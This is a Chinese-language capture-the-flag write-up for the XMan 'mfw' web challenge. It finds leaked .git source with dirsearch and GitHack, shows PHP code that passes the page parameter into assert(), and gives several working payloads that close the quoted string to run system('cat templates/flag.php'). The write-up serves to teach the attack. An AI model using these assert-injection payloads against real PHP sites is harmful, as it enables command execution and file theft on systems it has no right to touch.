 ## XMan Web-mfw

**工具：**GitHack,dirsearch**知识点：**

打开题目场景，检查网站，发现这样一个页面





![img](https:////upload-images.jianshu.io/upload_images/10148719-fa13e01ee3cb7eef.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/493/format/webp)

image.png



访问.git目录，疑似存在git源码泄露





![img](https:////upload-images.jianshu.io/upload_images/10148719-aebb660b0ea56299.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/600/format/webp)

image.png

再用dirsearch扫描，发现git源码泄露：





![img](https:////upload-images.jianshu.io/upload_images/10148719-726ff091784a3cd6.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/737/format/webp)





使用 GitHack获取源码





![img](https:////upload-images.jianshu.io/upload_images/10148719-981c9e67174c1c70.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/733/format/webp)




 得到源码



![img](https:////upload-images.jianshu.io/upload_images/10148719-af36984307dc5e63.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/276/format/webp)





index.php中关键代码如下

```php
<?php

if (isset($_GET['page'])) {
    $page = $_GET['page'];
} else {
    $page = "home";
}

$file = "templates/" . $page . ".php";

// I heard '..' is dangerous!
assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");

如果这个字符串中没有找到相应的子字符串 就返回false
// TODO: Make this look nice
assert("file_exists('$file')") or die("That file doesn't exist!");

?>
assert() 检查一个断言是否为 FALSE
strpos() 函数查找字符串在另一字符串中第一次出现的位置。如果没有找到则返回False
file_exists() 函数检查文件或目录是否存在。
assert()函数会将括号中的字符当成代码来执行，并返回true或false。
```

payload:`?page=abc') or system("cat templates/flag.php");//`

$file =templates/ abc') or system("cat templates/flag.php");// ".php"
 因为在strpos中只传入了abc，所以其肯定返回false，在利用or让其执行system函数，再用" // "将后面的语句注释掉
 查看网页源代码





![img](https:////upload-images.jianshu.io/upload_images/10148719-9fec8909c4296d17.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/768/format/webp)



其它payload:

  about.php', '123') === false and system('cat templates/flag.php') and strpos('templates/flag



flag','..')+or+system('cat+templates/flag.php');// 

assert语句里的strops是单引号，我们就将其闭合，并执行系统命令获取flag.php文件内容，同时将后面的die语句注释掉